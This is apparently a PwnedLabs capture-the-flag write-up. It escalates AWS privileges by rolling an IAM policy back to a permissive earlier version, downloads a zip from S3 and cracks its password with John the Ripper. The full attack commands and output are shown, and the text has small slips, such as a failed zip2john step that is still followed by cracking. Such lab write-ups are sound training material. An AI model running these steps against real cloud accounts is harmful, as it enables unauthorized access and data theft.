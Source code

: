 ```yaml
---
title: Lab Writeup - Escalate Privileges by IAM Policy Rollback
layout: post
date: 2025-06-27
categories: [Writeups, PwnedLabs]
tags: [Cloud, CTF, AWS, John the Ripper]
author: bailee
toc: true
description: Using a file containing AWS credentials, navigate and access sensitive data and resources.
---
```

Lab Platform: 
: [PwnedLabs](https://pwnedlabs.io/labs/escalate-privileges-by-iam-policy-rollback)

---

## Tools, Commands, & Resources

### Tools Used

- zip2john
- John the Ripper

### Commands

- `aws iam get-policy-version --policy-arn <policy-arn> --version-id <v#>`
    - Get the details of a specific version of a policy by it’s ARN and the version ID (v#). Only works with custom-made policies, not AWS-managed ones.

- `aws iam set-default-policy-version --policy-arn <policy-arn> --version-id <v#>`
    - Set the default policy version being used for a policy by its ARN and version ID.

### References

- <https://www.esecurityplanet.com/products/john-the-ripper/>
- <https://linuxcommandlibrary.com/man/zip2john>
- <https://github.com/openwall/john>

---

## Lab Walkthrough

### Enumeration

Using the provided AWS credentials, I configured my profile. First, let’s see what my user is and do some initial enumeration.

```
┌──(kali㉿kali)-[~]
└─$ aws sts get-caller-identity                                               
{
    "UserId": "AIDAZWFVYTTLSTOYD4ORI",
    "Account": "666101128407",
    "Arn": "arn:aws:iam::666101128407:user/intern01"
   }
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name intern01
{
    "AttachedPolicies": [
        {
            "PolicyName": "intern_policy",
            "PolicyArn": "arn:aws:iam::666101128407:policy/intern_policy"
        }
    ]
}
┌──(kali㉿kali)-[~]
└─$ aws iam list-policy-versions --policy-arn arn:aws:iam::666101128407:policy/intern_policy
{
    "Versions": [
        {
            "VersionId": "v2",
            "IsDefaultVersion": true,
            "CreateDate": "2025-06-14T03:40:49+00:00"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2025-06-14T03:40:48+00:00"
        }
    ]
}
```

So the account we are using, ‘intern01’, has a policy called ‘intern_policy’ attatched to the user. We can view all of the policy versions by using the command `aws iam list-policy-versions --policy-arn <policy-arn>`. There are two versions - v1 and v2. How are they different? 

```
┌──(kali㉿kali)-[~]
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v2 
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "internpolicy",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetPolicyVersion",
                        "iam:GetPolicy",
                        "iam:ListPolicyVersions",
                        "iam:GetUserPolicy",
                        "iam:ListAttachedUserPolicies",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Resource": [
                        "arn:aws:iam::*:user/intern01",
                        "arn:aws:iam::*:policy/intern_policy"
                    ]
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2025-06-14T03:40:49+00:00"
    }
}
┌──(kali㉿kali)-[~]
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "ec2:DescribeInstances",
                        "s3:ListAllMyBuckets",
                        "s3:GetObject",
                        "s3:ListBucket"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2025-06-14T03:40:48+00:00"
    }
}
```

### Privilege Escalation

It looks like v2 is a lot more restrictive than v1. V1 allows describing ec2 instances, and listing and getting objects from S3 anywhere in the account. v1, wisely, only allows for some get & list policies on our own account and policy. It would sure be nice if we could go back to that old policy… Oh wait, we can do that with the command `aws iam set-default-policy-version --policy-arn <policy-arn> --version-id <version-id>` !

```
┌──(kali㉿kali)-[~]
└─$ aws iam set-default-policy-version --policy-arn arn:aws:iam::666101128407:policy/intern_policy --version-id v1
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ aws s3 ls                                                                                                     
2025-06-13 23:40:50 huge-logistics-data-1fc2a16b89a3
```

It worked! After changing the policy version, we can list S3 information now! What all is in here anyway? 

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls huge-logistics-data-1fc2a16b89a3
2025-06-13 23:40:51       4352 amex-export.zip
```

Amex, like American Express? 

```
┌──(kali㉿kali)-[~]
└─$ aws s3 cp s3://huge-logistics-data-1fc2a16b89a3/amex-export.zip .
download: s3://huge-logistics-data-1fc2a16b89a3/amex-export.zip to ./amex-export.zip
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ unzip amex-export.zip                         
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password: 
   skipping: amex-export.json        incorrect password
   skipping: flag.txt                incorrect password
```

### Credential Access

Looks like I need a password… well, maybe the passwords game here isn’t that strong. Time to try John the Ripper. 

```
┌──(kali㉿kali)-[~]
└─$ zip2john ../../amex-export.zip > amex-export.zip.hash 
! ../../amex-export.zip : No such file or directory

┌──(kali㉿kali)-[~]
└─$ john amex-export.zip.hash --wordlist=rockyou.txt     
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1logistics       (amex-export.zip)     
1g 0:00:00:01 DONE (2025-06-14 00:11) 0.6622g/s 8615Kp/s 8615Kc/s 8615KC/s 1luvtyson..1josh=fit
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ unzip amex-export.zip 
Archive:  amex-export.zip
[amex-export.zip] amex-export.json password: 
  inflating: amex-export.json        
 extracting: flag.txt                                         
```

And there’s the flag!